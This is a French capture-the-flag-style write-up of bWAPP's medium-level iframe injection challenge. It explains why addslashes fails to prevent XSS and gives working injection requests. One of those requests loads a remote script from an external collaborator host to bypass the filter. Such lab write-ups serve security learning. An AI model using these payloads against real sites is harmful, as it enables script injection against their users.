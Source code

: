 # Niveau "Medium"

## Exploitation

La page du challenge permet de charger une `<iframe></iframe>`. L'URL admet 3 paramètres :&#x20;

* le premier, `ParamURL`, est l'URL cible de l'iframe, ayant comme valeur par défaut "robots.txt"
* le second et la troisième, `ParamWidth` et `ParamHeight`, sont la taille en largeur et en hauteur de l'iframe, ayant comme valeur par défaut "250"

Ici, modifier l'URL de l'iframe via le paramètre `ParamURL` ne semble pas fonctionner. Qu'importe sa valeur, le fichier "robots.txt" est affiché :

![](<../../../../../.gitbook/assets/image (8).png>)

Naturellement, l'injection via le paramètre d'URL `ParamUrl` ne fonctionne donc également pas. Il faut s'intéresser aux deux autres paramètres présents dans l'URL, qui eux peuvent être modifiés et ne semble pas être assainis :&#x20;

```http
GET /bWAPP/iframei.php?ParamUrl=whatever.txt&ParamWidth=250&ParamHeight=250%22%3E%3C/iframe%3E%3Cscript%3Ealert(1)%3C/script%3E%3Ciframe%20src= HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: PHPSESSID=36ce7aa0711c5215358577749d068476; security_level=1
Connection: close
```

![](<../../../../../.gitbook/assets/image (21).png>)

## Analyse du code source

L'application spécifie la valeur du `src` de l'iframe directement à la valeur "robots.txt" et ne tient pas compte de la valeur présente dans le paramètre d'URL `ParamUrl`. Ce n'est pas le cas des paramètres concernant la taille de l'iframe :&#x20;

{% code title="iframei.php" %}
```php
<?php
  if($_COOKIE["security_level"] == "1" || $_COOKIE["security_level"] == "2") {
?>
    <iframe frameborder="0" src="robots.txt" height="<?php echo xss($_GET["ParamHeight"])?>" width="<?php echo xss($_GET["ParamWidth"])?>"></iframe>
<?php
  }
?>
```
{% endcode %}

La méthode `xss()` est un `switch` exécutant une certaine méthode selon le niveau de sécurité actuel (1 dans le cas du niveau "Medium") : &#x20;

{% code title="iframei.php" %}
```php
function xss($data) {
  switch($_COOKIE["security_level"]) {
    case "0" :
      $data = no_check($data);      
      break;
    case "1" :
      $data = xss_check_4($data);
      break;
    case "2" :
      $data = xss_check_3($data);
      break;
    default :
      $data = no_check($data);
      break;   
  }

  return $data;
}
```
{% endcode %}

La méthode `xss_check_4()`, qui est censée assainir les paramètres renseignés par l'utilisateur, est exécutée :&#x20;

{% code title="functions_external.php" %}
```php
function xss_check_4($data) {
    // addslashes - returns a string with backslashes before characters that need to be quoted in database queries etc.
    // These characters are single quote ('), double quote ("), backslash (\) and NUL (the NULL byte).
    // Do NOT use this for XSS or HTML validations!!!

    return addslashes($data);
}
```
{% endcode %}

La méthode `addslashes()` permet d'échapper (en ajoutant un anti-slash) les caractères guillemets simples ( ' ), guillemets doubles ( " ), antislash (\\) et l'octet NUL :

![](<../../../../../.gitbook/assets/image (5).png>)

Cela peut poser problème lorsque l'injection tente d'appeler un script externe par exemple :&#x20;

```http
GET /bWAPP/iframei.php?ParamUrl=whatever.txt&ParamWidth=250&ParamHeight=250%22%3E%3C/iframe%3E%3Cscript+src=%22https://zjm4zwo6g15m5kif9uvage7al1rrfg.oastify.com/xss.js%22%3E%3C/script%3E%3Ciframe%20src= HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: PHPSESSID=36ce7aa0711c5215358577749d068476; security_level=1
Connection: closeHTTP
```

![](<../../../../../.gitbook/assets/image (31).png>)

Le contournement est assez simple ici puisqu'il suffit de supprimer les guillemets, le navigateur va les ajouter automatiquement :&#x20;

```http
GET /bWAPP/iframei.php?ParamUrl=whatever.txt&ParamWidth=250&ParamHeight=250%22%3E%3C/iframe%3E%3Cscript+src=http://zjm4zwo6g15m5kif9uvage7al1rrfg.oastify.com/xss.js%3E%3C/script%3E%3Ciframe%20src= HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: PHPSESSID=36ce7aa0711c5215358577749d068476; security_level=1
Connection: close
```

![](<../../../../../.gitbook/assets/image (26).png>)

